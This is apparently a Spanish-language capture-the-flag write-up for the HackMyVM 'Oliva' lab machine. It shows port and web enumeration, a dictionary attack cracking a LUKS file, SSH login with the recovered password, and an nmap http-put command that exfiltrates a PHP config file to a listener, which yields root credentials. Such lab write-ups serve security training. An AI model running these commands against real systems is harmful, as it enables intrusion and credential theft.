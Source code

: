 ```yaml
---
title: "Oliva Write-Up - HackMyVM"
description: "Oliva Write-Up - HackMyVM"
pubDatetime: 2023-08-30
tags: ["fácil", "hackmyvm", "LUKS", "cracking"]
---
```


# Reconocimiento

Primeramente como siempre realizamos un escaneo de puertos abiertos por TCP

```bash
❯ nmap -p- --open -A 192.168.18.141
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-30 20:32 CEST
Nmap scan report for 192.168.18.141
Host is up (0.00044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2 (protocol 2.0)
| ssh-hostkey:
|   256 6d:84:71:14:03:7d:7e:c8:6f:dd:24:92:a8:8e:f7:e9 (ECDSA)
|_  256 d8:5e:39:87:9e:a1:a6:75:9a:28:78:ce:84:f7:05:7a (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Welcome to nginx!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Por el puerto 22 corre SSH y por el 80 un servicio web en el que hay una página de nginx por defecto versión 1.22.1.

![](@assets/HackMyVM/oliva/nginx.png)

Realizamos un fuzzing con gobuster.

```bash
❯ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://192.168.18.141/ -x html,txt,php -t 200 -o webScan
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.18.141/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 615]
/index.php            (Status: 200) [Size: 69]
Progress: 830516 / 830520 (100.00%)
===============================================================
Finished
===============================================================
```

Hay una ruta `index.php` con un link para descargar un encriptado "oliva".

![](@assets/HackMyVM/oliva/oliva.png)

```bash
❯ file oliva
oliva: LUKS encrypted file, ver 2, header size 16384, ID 3, algo sha256, salt 0x14fa423af24634e8..., UUID: 9a391896-2dd5-4f2c-84cf-1ba6e4e0577e, crc 0x6118d2d9b595355f..., at 0x1000 {"keyslots":{"0":{"type":"luks2","key_size":64,"af":{"type":"luks1","stripes":4000,"hash":"sha256"},"area":{"type":"raw","offse
```

Se trata de un archivo encriptado con LUKS.

> LUKS es un programa para GNU/Linux de código abierto cuyas siglas significan Linux Unified Key Setup. LUKS sirve para especificar métodos de cifrado, que sirven para encriptar el disco duro de una máquina con dicho sistema operativo. LUKS utiliza algoritmos criptográficos seguros, que a la vez cuentan con un alto nivel de compatibilidad. Es decir, LUKS permite cifrar las diferentes particiones del disco duro de un sistema, de manera versátil, compatible y segura.

# Crackeando LUKS e intrusión

Buscando para crackearlo encuentro el siguiente repositorio [Brute-Force LUKS](https://github.com/glv2/bruteforce-luks). Me lo clono y sigo los pasos de instalación.

Corremos el programa sobre el archivo **oliva** y obtenemos una contraseña.

```bash
❯ ./bruteforce-luks -t 6 -f /usr/share/seclists/rockyou.txt -v 30 ../../content/oliva # -t: hilos, -f: worlist, -v: verbose cada 30s
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 971
Tried passwords per second: 0.916903
Last tried password: tucker

Password found: bebita
```

Desciframos el archivo:

```bash
❯ cryptsetup luksOpen oliva oliva
```

Ahora el archivo se encuentra seguramente en la siguiente ruta:

```bash
❯ ls /dev/mapper

oliva
```

Para acceder a los contenidos tenemos que montarlo a una ruta del sistema

```bash
❯ mkdir tmp

❯ sudo mount /dev/mapper/oliva tmp

❯ ls tmp
lost+found mypass.txt

❯ cat tmp/mypass.txt
Yesthatsmypass!
```

## SSH

Nos conectamos con SSH con la contraseña de antes y el usuario **oliva**.

```bash
❯ sshpass -p 'Yesthatsmypass!' ssh oliva@192.168.18.141
```

![/assets/HackMyVM/oliva/user.png]

# Escalada

Listando las capabilities encuentro que nmap tiene seteado la siguiente.

```bash
oliva@oliva:/dev/shm$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/nmap cap_dac_read_search=eip
```

Lo que significa que puede leer cualquier archivo del sistema.

Para explotar esto voy a intentar leer la clave privada SSH de root usando el siguiente payload de [gtfobins](https://gtfobins.github.io/).

![](@assets/HackMyVM/oliva/gtfobins.png)

Tras probar varios archivos encuentro que en el `index.php` del principio hay credenciales para mysql.

Nos ponemos en escucha y mandamos el archivo.

```bash
oliva@oliva:/dev/shm$ nmap -p 8080 192.168.134.1 --script http-put --script-args http-put.url=/,http-put.file=/var/www/html/index.php
```

```bash
❯ socat -v tcp-listen:8080,reuseaddr,fork -
> 2023/08/31 19:39:35.000011432  length=340 from=0 to=339
PUT / HTTP/1.1\r
Content-Length: 163\r
User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)\r
Connection: close\r
Host: 192.168.134.1:8080\r
\r
Hi oliva,
Here the pass to obtain root:

<?php
$dbname = 'easy';
$dbuser = 'root';
$dbpass = 'Savingmypass';
$dbhost = 'localhost';
?>
...
```

Nos conectamos a mysql

```bash
oliva@oliva:~$ mysql -u root -p
Enter password: Savingmypass
```

![](@assets/HackMyVM/oliva/mysql.png)

Credenciales en texto claro...

Nos logeamos como root con la contraseña que nos dan y tenemos shell como root.

![](@assets/HackMyVM/oliva/root.png)

# Referencias

- [https://keepcoding.io/blog/que-es-luks/](https://keepcoding.io/blog/que-es-luks/)
- [https://github.com/glv2/bruteforce-luks](https://github.com/glv2/bruteforce-luks)
